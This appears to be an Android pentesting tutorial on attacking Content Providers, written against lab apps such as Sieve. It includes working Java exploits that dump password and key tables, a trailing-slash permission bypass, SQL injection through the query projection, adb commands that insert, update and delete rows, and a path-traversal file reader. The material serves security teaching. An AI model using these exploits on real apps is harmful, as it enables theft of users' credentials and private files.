 # Content Provider Hacking

**Overview**

Content Providers manage access to a structured set of data in Android applications. They encapsulate data and provide mechanisms for defining data security. They can be targeted for various vulnerabilities such as SQL Injection and Path-Traversal attacks.

**Key Areas of Focus**

1. **Exported Content Providers**
2. **SQL Injection Vulnerabilities**
3. **Path-Traversal Vulnerabilities**

***

### 1. Exported Content Providers

**What to Look For:**

* **Exported Providers**: Check if the Content Provider is exported in the `AndroidManifest.xml` file. An exported provider can be accessed by other applications.
* **Permissions**: Examine if the Content Provider is protected by permissions. If the `protectionLevel` is not set to `signature`, it might be circumvented.

```xml
<provider
    android:name="com.example.provider"
    android:authorities="com.example.provider"
    android:exported="true"
    android:permission="com.example.provider.READ_WRITE" />
```

<figure><img src="../.gitbook/assets/image (222).png" alt=""><figcaption></figcaption></figure>

#### **Code Exploit**&#x20;

```java
Uri uri = Uri.parse("content://com.mwr.example.sieve.DBContentProvider/Passwords");
Cursor queryCursor = getContentResolver().query(uri,null,null,null,null);

textView.setText("cursor " + DatabaseUtils.dumpCursorToString(queryCursor));
```

**AndroidManifest.xml** in all exploits should have those lines

```xml
<queries>
    <package android:name="com.apphacking.musicplayer"/>
</queries>
```

#### Case 1: Permission Bypass

Bypassing the custom user permission, because of the missing regex regarding to the PATH

Simply appending `/////` at the end of our content URI will bypass it.

**Code Exploit**

```java
Uri uri = Uri.parse("content://com.mwr.example.sieve.DBContentProvider/Keys/////");
Cursor queryCursor = getContentResolver().query(uri,null,null,null,null);

textView.setText("cursor " + DatabaseUtils.dumpCursorToString(queryCursor));
```

### 2. SQL Injection Vulnerabilities

<figure><img src="../.gitbook/assets/image (58).png" alt=""><figcaption></figcaption></figure>

**Steps to Identify:**

* **Check Query Methods**: Look at the `query` method to see if user inputs are properly sanitized.
* **Identify Tables**: Locate the tables used within the Content Provider by searching for `content://` URIs in the code.

<figure><img src="../.gitbook/assets/image (59).png" alt=""><figcaption></figcaption></figure>

**Example Code to Identify SQL Injection Points:**

```java
String selection = "SELECT * FROM users WHERE username = ?";
Cursor cursor = db.rawQuery(selection, new String[]{username});
```

Now we need to identify the tables in the Java code. We can look for the keyword “`content://`“.

<figure><img src="../.gitbook/assets/image (60).png" alt=""><figcaption></figcaption></figure>

#### **Case 1**

* We need to query the Passwords table to insert our own SQL statement
* SQL statement will be inserted via the projection
* SQL syntax is sth like: `SELECT * FROM Passwords WHERE ....`
* projection --> `SELECT '* FROM Key--;' (ignored .... FROM Passwords WHERE)`

**Exploit**

```java
Uri uri = Uri.parse("content://com.mwr.example.sieve.DBContentProvider/Passwords");

String[] projection = new String[] {"* FROM KEY--;"};
Cursor queryCursor = getContentResolver().query(uri,projection,null,null,null);

textView.setText("cursor " + DatabaseUtils.dumpCursorToString(queryCursor));
```

#### Case 2

* Granting the custom permissions of the sieve application to query the Key table.
* consider:
* Define them in the Manifest

```xml
<uses-permission android:label="@string/perm_descr" android:name="com.mwr.example.sieve.READ_KEYS" android:protectionLevel="dangerous"/>
<uses-permission android:label="@string/perm_descr" android:name="com.mwr.example.sieve.WRITE_KEYS" android:protectionLevel="dangerous"/>
```

* We need to ask for them during runtime.&#x20;

```java
String[] permission = new String[] {"com.mwr.example.sieve.READ_KEYS"};
ActivityCompat.requestPermissions(this, permission,9001);

Uri uri = Uri.parse("content://com.mwr.example.sieve.DBContentProvider/Keys");

String[] projection = new String[] {"*"};
Cursor queryCursor = getContentResolver().query(uri,projection,null,null,null);

textView.setText("cursor " + DatabaseUtils.dumpCursorToString(queryCursor));
```

**Example SQL Injection Attack:**

*   **Extract All Entries**:

    ```bash
    $ content query --uri content://com.example.provider/users --projection "* FROM users--"
    ```
*   **Inserting Data**:

    ```bash
    $ content insert --uri content://com.example.provider/users --bind name:s:admin
    ```
*   **Updating Data**:

    ```bash
    $ content update --uri content://com.example.provider/users --bind name:s:hacker --where "name='admin'"
    ```
*   **Deleting Data**:

    ```bash
    $ content delete --uri content://com.example.provider/users --where "name='admin'"
    ```

### 3. Path-Traversal Vulnerabilities

**Steps to Identify:**

* **Check Exported Providers**: Again, ensure the Content Provider is exported.
* **ParcelFileDescriptor**: Look for `ParcelFileDescriptor openFile` method and ensure the URI input is sanitized.

**Example Path-Traversal Attack:**

*   **Reading Arbitrary Files**:

    ```bash
    $ content read --uri content://com.example.provider/../../../../../../etc/hosts
    ```

#### Code Exploit

```java
public class MainActivity extends AppCompatActivity {

    InputStream inputStream;
    TextView textView;

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        textView = (TextView) findViewById(R.id.textView);

        Uri uri = Uri.parse("content://com.apphacking.musicplayer/../../../../../../../data/data/com.apphacking.musicplayer/files/mySecretFile");

        try {
            inputStream = getContentResolver().openInputStream(uri);
        } catch (FileNotFoundException e) {
            e.printStackTrace();
        }

        InputStreamReader inputStreamReader = new InputStreamReader(inputStream);
        BufferedReader bufferedReader = new BufferedReader(inputStreamReader);
        String fileInput = "";

        try {

            while (bufferedReader.ready()) {
                fileInput += bufferedReader.readLine();
                fileInput += "\n";
            }

        } catch (IOException e) {
                e.printStackTrace();
            }

        textView.setText("Accessing mySecretFile: \n" + fileInput);

    }
}
```

#### Summary

When pentesting Content Providers in Android applications, focus on:

* Ensuring Content Providers are not improperly exported.
* Checking for SQL Injection vulnerabilities by examining how inputs are handled in query methods.
* Identifying and exploiting Path-Traversal vulnerabilities by verifying how file URIs are processed.

By thoroughly investigating these areas, you can identify and exploit significant vulnerabilities in Android applications' Content Providers.
